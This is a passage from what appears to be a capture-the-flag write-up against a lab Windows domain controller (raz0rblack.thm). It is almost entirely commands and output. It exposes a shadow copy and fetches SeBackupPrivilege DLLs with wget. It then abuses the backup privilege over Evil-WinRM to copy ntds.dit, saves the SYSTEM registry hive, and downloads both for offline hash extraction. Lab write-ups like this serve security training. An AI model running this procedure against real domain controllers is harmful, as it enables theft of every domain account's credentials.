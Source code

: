 ```
Alias VSS_SHADOW_SET for shadow set ID {2c73aeea-cdb0-47d5-85f8-dfe4dfbdbea6} set as environment variable.

Querying all shadow copies with the shadow copy set ID {2c73aeea-cdb0-47d5-85f8-dfe4dfbdbea6}

        * Shadow copy ID = {29b531e8-3c00-49f9-925d-5e1e3937af13}               %someAlias%
                - Shadow copy set: {2c73aeea-cdb0-47d5-85f8-dfe4dfbdbea6}       %VSS_SHADOW_SET%
                - Original count of shadow copies = 1
                - Original volume name: \\?\Volume{115c1f55-0000-0000-0000-602200000000}\ [C:\]
                - Creation time: 7/16/2021 3:45:20 PM
                - Shadow copy device name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
                - Originating machine: HAVEN-DC.raz0rblack.thm
                - Service machine: HAVEN-DC.raz0rblack.thm
                - Not exposed
                - Provider ID: {b5946137-7b9f-4925-af80-51abd60b20d5}
                - Attributes:  No_Auto_Release Persistent No_Writers Differential

Number of shadow copies listed: 1
-> expose %someAlias% h:
-> %someAlias% = {29b531e8-3c00-49f9-925d-5e1e3937af13}
The shadow copy was successfully exposed as h:\.
```

**Uploading the DLLs to the target machine**

```
root@kali$ wget https://github.com/giuliano108/SeBackupPrivilege/raw/master/SeBackupPrivilegeCmdLets/bin/Debug/SeBackupPrivilegeUtils.dll

root@kali$ wget https://github.com/giuliano108/SeBackupPrivilege/raw/master/SeBackupPrivilegeCmdLets/bin/Debug/SeBackupPrivilegeCmdLets.dll
```

**abusing the backup privilege by creating a backup copy of the hashes database**

```
*Evil-WinRM* PS C:\tmp> upload SeBackupPrivilegeUtils.dll

*Evil-WinRM* PS C:\tmp> upload SeBackupPrivilegeCmdLets.dll

*Evil-WinRM* PS C:\tmp> import-module .\SeBackupPrivilegeUtils.dll

*Evil-WinRM* PS C:\tmp> import-module .\SeBackupPrivilegeCmdLets.dll

*Evil-WinRM* PS C:\tmp> copy-filesebackupprivilege h:\windows\ntds\ntds.dit C:\tmp\ntds.dit -overwrite

*Evil-WinRM* PS C:\tmp> reg save HKLM\SYSTEM C:\tmp\system

*Evil-WinRM* PS C:\tmp> download ntds.dit

*Evil-WinRM* PS C:\tmp> download system
```
